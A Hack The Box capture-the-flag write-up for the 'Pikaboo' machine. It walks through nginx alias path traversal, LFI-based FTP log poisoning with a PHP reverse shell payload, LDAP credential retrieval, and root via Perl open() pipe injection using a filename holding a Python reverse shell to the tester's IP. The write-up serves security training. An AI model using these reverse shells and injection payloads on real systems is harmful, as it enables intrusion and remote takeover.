


```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

[Wappalyzer](https://www.wappalyzer.com/) shows us that there is a reverse nginx proxy. 


Since we didn't find anything else interesting we just searched for `ngninx reverse proxy exploit` on google and found [this article](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

So we followed that and ran [FFUF](https://github.com/ffuf/ffuf) like this:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://pikaboo.htb/admin../FUZZ 
```

And got some hits:
```
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
admin                   [Status: 401, Size: 456, Words: 42, Lines: 15]
javascript              [Status: 301, Size: 314, Words: 20, Lines: 10]
server-status           [Status: 200, Size: 6694, Words: 285, Lines: 130]
```

Since `server-status` is the only `Status: 200` hit we had a look at that.



Like this we discovered a new page: `http://pikaboo.htb/admin../admin_staging/`

## User

This page seems to include files/sites through the site paramter like this:
```
http://pikaboo.htb/admin../admin_staging/index.php?page=user.php
```

So we run [FFUF](https://github.com/ffuf/ffuf) with a LFI wordlist from [SecList](https://github.com/danielmiessler/SecLists).

And were able to include two files:
```
/var/log/vsftpd.log     [Status: 200, Size: 19803, Words: 3893, Lines: 414]
/var/log/wtmp           [Status: 200, Size: 174325, Words: 3286, Lines: 558]
```

Accessing it like this http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log we get a username `pwnmeow` and are also able to see the ftp login attempts.

We were able to do some log file poisioning by trying to login as user: `<?php phpinfo(); ?>` for example so we figured a php reverse shell should work here.
So we opened a new session:
```
nc -vn 10.129.196.252 21
```

and crafted this payload:
```
USER <?php $sock=fsockopen("10.10.14.66",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

for PASS we just put anything. When we now open the log file in our browser again we get a connection on our reverse shell.

## Root

Running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we quickly find an interesting cronjob:

```
* * * * * root /usr/local/bin/csvupdate_cron
```

However we need to become the user `pwnmeow` first. Enumerating the machine we found a password for ldap in `/opt/pokeapi/config/settings.py`.

```
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

With this password we can run:

```
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -v -b "DC=pikaboo,DC=htb"
```

To get this output containing the ftp password for `pwnmeow` in base64.

```
[...]
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
[...]
```

Credentials for ftp: `pwnmeow:_G0tT4_C4tcH_'3m_4lL!_`.

Since we are able to upload files through ftp as `pwnmeow` now we can abuse the cronjob for priv esc.

The cronjob runs some perl script which basically runs another perlscript `/usr/local/bin/csvupdate` which opens all .csv files in the directories in `/srv/ftp/`.

```perl
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";
```

Searching for perl opening files vulnerabilities we found [this stackoverflow post](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention).

So the way this script opens files is insecure as we have full control over the file name. When we create a new file with a filename like this:
```
| echo "pwned" |.csv
```
the command between the pipes gets executed. Of course we won't see the output in this example but we tested it with a wget command. So now we only need to craft a filename with a reverse shell:

```
touch "| python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.76\",4545));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"sh\")' |.csv"
```

You can upload this file using CLI or like we did using [filezilla](https://filezilla-project.org/).



Now you only need to wait for your shell to become root.
